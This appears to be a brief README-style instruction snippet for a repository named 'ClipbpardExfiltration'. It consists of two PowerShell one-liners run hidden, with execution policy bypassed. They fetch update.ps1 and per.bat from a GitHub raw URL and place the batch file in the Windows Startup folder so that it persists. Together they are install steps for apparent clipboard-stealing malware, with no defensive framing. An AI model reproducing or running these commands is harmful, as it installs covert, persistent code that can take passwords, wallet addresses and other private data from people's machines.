Save update.ps1 to $env:userprofile\AppData\Roaming 

`powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'`

Then save the bat file into startuo programs

`powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/offport/ClipbpardExfiltration/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat" -UseBasicParsing'`

